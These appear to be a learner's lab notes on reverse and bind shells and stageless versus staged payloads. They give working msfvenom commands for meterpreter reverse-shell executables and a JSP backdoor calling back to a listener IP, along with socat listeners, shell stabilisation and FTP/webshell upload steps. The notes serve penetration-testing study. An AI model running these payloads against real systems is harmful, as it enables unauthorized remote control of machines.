

Shells

**Reverse shell and Bind shell**


**Staged and Non Staged Payload**
### Non Staged:
1. Sends exploit all at once
2. Larger in size wont work always
3. Ex: windows/meterpreter_reverse_tcp,netcat,socat.
**(_) is used to show its stageless**
payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.
### Staged:
1. Sends payload in stages.
2. Can be less stable.
3. Ex: windows/meterpreter/reverse_tcp
> in two parts first is stager and then it downloads the payload from listerner.

Stager - executed directly on the server itself. It connects back to a waiting listener, but doesnt actually contain any reverse shell code by itsself. Instead it connects to the listener and downloads the actual payload. Thus the payload is split into the parts-- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit `multi/handler`, which will be covered in the next task


**What is a Shell?**
>CLI environment is shell
>powershell, cmd.exe for windows
>bash, sh, zsh,etc for linux

Variety of tools in common
1. Netcat
>Swiss army knife.
>Manually performed all kinds of network interactions, like banner grabbing,reverse shell,bind shells.
2. Socat
>Socat is netcat on steroids.
>Syntax is difficult.
>Netcat is by default but Socat is raely installed.
>socat also provides you to get encrypted reverse shell
4. Metasploit -- multi/handler
>`auxiliary/multi/handler` module of metasploit used as netcat or socat to recieve reverse shells.
>Only way to to interact with meterpreter shells.
>provides way to handle staged payloads.
6. Msfvenom
> Used to generate payloads and part of metasploit 
> Can generate payloads other than reverse shell and bind shell
8. Pwncat (JohnHammod)
> Advance stable netcat option which is bascially red team tool
> gives you addition features of priv escallation,download,upload,etc
10. Pwncat (cytopia)
> similar to John's tool but more advance

# Resources

[High on coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
[pentestMonkey](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[SecLists](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)


# Types of Shells

There are 2 types of shells

**1. Reverse Shell**

**2. Bind Shell**


## Interactivity
1. Interactive
>ssh


```bash
# When deffe-helmain key exchange is supprted only
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sunny@10.10.10.76 -p 22022
```

3. Non-Interactive
>netcat


# Netcat shell Stabilisation
**1. Method one: Python**
Step 1: `python -c 'import pty;pty.spawn("/bin/bash")'`
uses python spawn feature bash shell.
Step 2: `export TERM=xterm`
this gives us the term commands like: `clear`
Step 3: Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. 


**2. Method two**
`rlwrap`
`rlwrap nc -nvlp 1337`
**3. Method three**
`socat`
**4. Method four**
`source env/bin/activate`
`pwncat --listen -p 4444`
**5. Method five**
`bash -i`

# Socat encrypted shell





syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"
```socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0```


# Common shell payloads
`/usr/share/windows-resources/binaries`
here you will get all the useful binaries like: nc.exe,plink.exe,etc
# Msfvenom 
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

*Payload Naming Conventions*
`<OS>/<arch>/<payload>`
*Example*
`linux/x86/shell_reverse_tcp`

*List all the payloads*
`msfvenom --list payloads| grep "linux/x86/meterpreter"`


# Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell. (to-do)


**You have to do these questions**


Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with netcat -- does this work?

>as _ once are stageless 

`linux/x64/meterpreter/reverse_tcp`                   Inject the mettle server payload (staged). Connect back to the attacker
    `linux/x64/meterpreter_reverse_tcp`                   Run the Meterpreter / Mettle server payload (stageless)
	
`windows/x64/powershell_reverse_tcp`                  Listen for a connection and spawn an interactive powershell session
`windows/x64/meterpreter/reverse_tcp`                 Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Connect back to the attacker (Windows x64)
`windows/x64/meterpreter_reverse_tcp`                 Connect back to attacker and spawn a Meterpreter shell

Command:
`msfvenom -p windows/x64/meterpreter_reverse_tcp -f exe -o shell-stageless.exe LHOST=10.8.95.162 LPORT=1337`
`msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.8.95.162 LPORT=1337`
`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.8.95.162 LPORT=1337`
`msfvenom -p linux/x64/meterpreter_reverse_tcp -f elf  -o shell-stageless LHOST=10.8.95.162 LPORT=1337`

****Last answer:** no meterpreter doesnt work with netcat**


# FTP to Shell
so in this one if you have anonymous access to the ftp server then upload a shell and then go to `ftp://ip/shell.php` the open your nc listener and BOOM!!! 

[Shell Upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)


## Tips and Tricks
1. Java reverse shell 
`msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.xx.xx LPORT=4449 -f war > backdoor.war`

**?cmd=id**
1. echo the shell 
2. Download the shell
3. upload it.